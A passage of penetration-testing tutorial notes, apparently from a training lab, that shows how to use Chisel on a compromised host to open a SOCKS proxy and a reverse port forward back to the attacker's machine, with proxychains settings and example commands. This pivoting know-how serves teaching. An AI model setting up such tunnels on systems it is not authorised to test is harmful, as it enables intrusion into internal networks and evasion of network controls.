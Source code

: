 First, on the compromised host we would use:
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

**Proxychains Reminder:**
When sending data through either of these proxies, we would need to set the  port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```



**Note:** The above configuration is for a reverse SOCKS proxy -- as mentioned  previously, the proxy opens on port 1080 rather than the specified  listening port (1337). If you use proxychains with a forward proxy then  the port should be set to whichever port you opened (1337 in the above  example).

------

Now that we've seen how to use chisel to  create a SOCKS proxy, let's take a look at using it to create a port  forward with chisel.

***Remote Port Forward:***
A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to. 
The command to connect back is slightly different this time, however:
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port  forward method, where we specify the local port to open, the target IP,  and the target port, separated by colons. Note the distinction between  the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.

To use an old example, let's assume that our own IP is 172.16.0.20, the  compromised server's IP is 172.16.0.5, and our target is port 22 on  172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222  on our attacking machine would be as follows:
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

Connecting back to our attacking machine, functioning as a chisel server started with:
`./chisel server -p 1337 --reverse & `
